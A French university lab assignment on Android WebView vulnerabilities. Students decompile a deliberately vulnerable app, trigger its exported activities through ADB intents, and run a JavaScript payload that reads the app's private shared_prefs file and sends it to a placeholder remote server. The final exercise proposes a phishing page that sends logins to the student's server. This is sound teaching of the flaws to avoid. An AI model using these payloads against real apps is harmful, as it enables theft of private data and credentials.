

# Introduction aux vulnérabilités d'une webview 

Le but de ce TP est de vous sensibiliser et de vous familiariser avec certaines notions de sécurité informatique.
Les pratiques que vous allez mettre en oeuvre ne sont autorisées que sur du matériel vous appartenant ou pour lequel
vous avez les autorisations écrites nécessaires émanant des autorités idoines.

**Article 323-1 du code pénal, Modifiée par LOI 2012-410 du 27 mars 2012 - art. 9}**

Le fait d'accéder ou de se maintenir, frauduleusement, dans tout ou partie d'un système de traitement automatisé de données est puni de deux ans d'emprisonnement et de 30000 euros d'amende.

Lorsqu'il en résulte soit la suppression ou la modification de données contenues dans le système, soit une altération du fonctionnement de ce système, la peine est de trois ans d'emprisonnement et de 45000 euros d'amende.

Lorsque les infractions prévues aux deux premiers alinèas ont été commises à l'encontre d'un système de traitement automatisée de données à caractère personnel mis en oeuvre par l'Etat, la peine est portée à cinq ans d'emprisonnement et à 75 000 euros d'amende.

## Consignes

### Rapport écrit

Afin d'évaluer correctement vos connaissances, il vous est demandé d'écrire et de rendre un rapport qui montre à l'enseignant votre compréhension du sujet.
Ce rapport doit fidèlement rendre compte de votre travail.
Vous y écrirez ce que vous comprenez de l'exercice, les différents problèmes que vous rencontrez et comment vous réussissez à les résoudre.
Ce rapport doit respecter les consignes suivantes:
- Le rapport est fichier `.md` (markdown) ou `.pdf` appelé `rapport_[nom_prénom]_[nom_prénom].md` (ou `rapport_[nom_prénom]_[nom_prénom].pdf`) que vous placerez dans le dossier correspondant au TD évalués (e.g `td3`) de votre répertoire git.
- Il vous est demandé d'expliquer les différentes étapes du TP et de montrer que vous les avez comprises.
- Dans certaines parties du TP, il vous est demandé de répondre à des questions théoriques. Vous répondrez à ces questions dans le rapport dans un français correct et en prenant soin de les numéroter.
- Seuls les rapports au format `.md` et `.pdf` seront pris en compte dans l'évaluation (attention à ne pas rendre votre rapport au format `.odt` ou `.doc`).
- Copier/coller des lignes de commande ou du code sans en expliquer leur fonctionnement n'aura aucune valeur dans l'évaluation de votre rapport.

### Code

Vous serez également évalué sur le code produit pendant le TD.
Les consignes suivantes sont à respecter :
- Le code produit doit pouvoir être compilé sur n'importe quelle machine qui possède l'environnement de développement standard (Android Studio dans le cadre de ce TP). Tout code qui ne compile pas sur la machine de l'enseignant ne sera pas pris en compte dans l'évaluation.
- Le code doit être clair et commenté.
- Pour chaque nouveau projet d'application Android, vous placerez le répertoire complet du projet (incluant les fichiers nécessaires à sa compilation) à dans le dossier portant le nom du TD courant (e.g `td1`) et vous lui donnerez un nom explicite tel que `td1_partie1_webview`.
- Avoir *Android Studio* ou *Intellij* installé sur sa machine.
- Vous prendrez soin de vérifier que votre application s'exécute correctement sur un émulateur qui possède les propriétés suivantes :
    - Device model: Pixel 2
    - Version de l'OS: Android 10 (Q, API 29), with Google Play
    - CPU architecture: x86
    
Il est de votre responsabilité de vérifier que l'application Android que vous développez est compatible avec la version d'Android et l'appareil mentionnés ci-dessus.
Toute application non fonctionnelle en raison de problèmes d'incompatibilité ne sera pas prise en compte dans la note finale du TP.

## Contexte et Objectifs

Une `webview` permet d'afficher des pages Web dans le cadre de la mise en page de votre activité. Elle n'inclut pas les fonctionnalités d'un navigateur Web entièrement développé, telles que les commandes de navigation ou une barre d'adresse. Tout ce que WebView fait, par défaut, est d'afficher une page Web.

Dans ce contexte, des vulnérabilitées relatives à certaines applications utilisant ce concept sont apparues récemment. L'objectif de ce TP est de se familiariser avec ces vulnérabilitées afin d'être en mesure d'éviter certaines pratiques.

Ainsi, dans ce TP, il vous est demandé de décompresser un fichier APK d'une application android vulnérable. Une première partie théorique vise à illustrer les différentes vulnérabilitées sera traitée. Ensuite, vous devez exploiter une des vulnérabilitées étudiées précédemment (celle de votre choix).

### Partie I: Vulnérabilité 1

L'objectif de cette partie est de présenter deux vulnérabilités des webviews. Pour ce faire, nous nous basons sur l'application vulnérable `App.apk`, téléchargeable sur le répertoire du TD4. 

Nous procédons d'abord à l'installation de `JADX`, qui est un décompilateur de fichiers `APK` et `DAX` utilisable sur invite de commandes sous Linux.

Pour installer `JADX`, suivez le tutoriel :
https://lindevs.com/install-jadx-on-ubuntu/

Ou bien sur le lien GitHub de `JADX` :
https://github.com/skylot/jadx

Ensuite, Procéder à la décompilation de l'application `App.apk` comme suit :
```Bash
// se rendre dans le répertoire contenant l'application app.apk puis faire la décompilation
jadx app.apk
```

Après avoir obtenu le code source de l'application app.apk suite à la décompilation, il est possible d'accéder aux différents codes constituant cette application afin de comprendre son fonctionnement. Etant donné que les webviews font partie des activitées dans une application, nous avons besoin dans un premier temps de vérifier leur présence dans le fichier `AndroidManifest.xml`. Après, nous allons voir quels sont les activitées qui sont exportés, c.à.d. si oui ou non l'activité peut être lancée par des composants d'autres applications. nous pouvons conclure qu'une activitée est exportée de 2 manières.

* Si la valeur de l'attribut "exported=true"
* Si l'activité a des filtres d'intent et aucun attribut « exported=false »


certaines activités telles que `SupportWebView`, `RegistrationWebView` sont explicitement exportées, et `MainActivity` est exportée en mentionnant des filtres d'intent grâce auxquels nous pouvons confirmer que les WebViews sont utilisés par l'application.


Nous pouvons voir que la fonction `loadWebView`, elle charge l'url en obtenant le lien depuis un intent.


Ce comportement peut donc être exploité par des applications tierces en envoyant un intent à ce composant avec une d'URL et l'application cible acceptera et s'exécutera car ce composant a été exporté. c'est-à-dire que l'application tierce a accès au composant Webview dans l'application cible. Pour tester cela, nous utiliserons ADB (Android Debugger Bridge) pour envoyer un intent au composant et cet intent ouvrira une page Web malveillante fournie par l'attaquant dans le contexte de l'application. ADB est téléchargeable sous linux avec la commande suivante :

```BASH
sudo apt-get install android-tool-adb android-tool-fastboot
```

Ainsi, à partir d'un terminal Linux, il est possible d'envoyer un intent à n'importe quelle application Android sur l'émulateur ou sur le téléphone utilisé, si l'application cible dispose d'un filtre d'intent ou d'un receveur de broadcast.

La requête ADB qui envoie un intent est de la forme suivante :
```BASH 
adb shell am start -n componentname --es string "domain.com"
```
Tel que `componentname` représente le nom de l'activité ciblée par l'intent, et le `domain.com` représente un exemple de chaine de caractère représentée dans l'intent. Dans notre exemple, si nous souhaitons à travers l'intent envoyer l'URL de `Google`, la requête serait la suivante :

```Bash
adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "https://www.google.com"
```

Tel que "om.tmh.vulnwebview/.RegistrationWebView" représente le chemin de l'activité `RegistrationWebView` qui attend un intent avec une chaine de caratère nommée `reg_url`, et qui contient l'URL envoyée (google dans notre cas).

### Partie II : Vulnérabilité 2

Un autre paramètre que le développeur peut configurer est d'autoriser l'exécution de JavaScript dans le contexte de l'URL du schéma de fichier pour accéder au contenu de n'importe quelle origine, y compris d'autres URL de schéma de fichier.

Ce paramètre supprime toutes les restrictions de politique d'origine et permet à la Webview de faire des demandes au Web à partir du fichier, ce qui n'est normalement pas possible. c'est-à-dire que l'attaquant peut lire les fichiers locaux à l'aide d'un script java et les envoyer sur le Web vers un domaine contrôlé par l'attaquant.

Si la WebView est exportée, ce comportement peut être très dangereux car il peut permettre à l'attaquant de lire des fichiers arbitraires qui peuvent être privés dans l'application.



Pour exploiter cette vulnérabilité présente dans l'activité `RegistrationWebView`, il suffit d'introduire un fichier html comportant un script qui envoie les données d'un fichier local propre à l'application à un serveur distant via une requête HTTP. L'exemple de code suivant envoie le fichier local `MainActivity.xml` à un serveur distant.

```JAVASCRIPT
<script>
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //Un fichier local de l'application
    function load(url) {
        var xhr = new XMLHttpRequest();xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
            fetch('https://AdressedunServeurDistant'); //Envoyer le fichier local à un serveur distant
            }
        }xhr.open('GET', url, true);
        xhr.send('');
    }load(url)
</script>
```

Pour tester cette vulnérabilité, les données du fichier local `MainActivity.xml` sont envoyées à un serveur distant. Pour tester cela, copiez d'abord le script ci-dessus dans un fichier `envoi.html`, rajoutez une route à votre serveur précédent (créé en TP 3) pour y envoyer les données du fichier local `MainActivity.xml`. Puis exécutez la commande suivante sur ADB afin de copier ce fichier dans la carte SD du téléphone/émulateur. 

```BASH
adb push envoi.html /sdcard/
```

Après avoir copié le fichier dans la carte SD, nous utilisons ADB pour envoyer un intent vers l'application `RegistrationWebView`, ce qui exécutera la page HTML `envoi.html` se trouvant dans la carte SD du téléphone, et ainsi envoyer les données privées du téléphone vers un serveur distant.

```BASH
adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "file:///sdcard/envoi.html"
```

Partie III : Activité

En se basant sur les deux vulnérabilitées présentées précédemment, faites un cas d'application d'une de ces vulnérabilitées en envoyant les données intercéptées à un serveur distant (une nouvelle route du serveur du TP 3).

Exemple : Une page de fishing exécutée dans le context de la webview qui envoie le login et mot de passe vers le serveur distant.

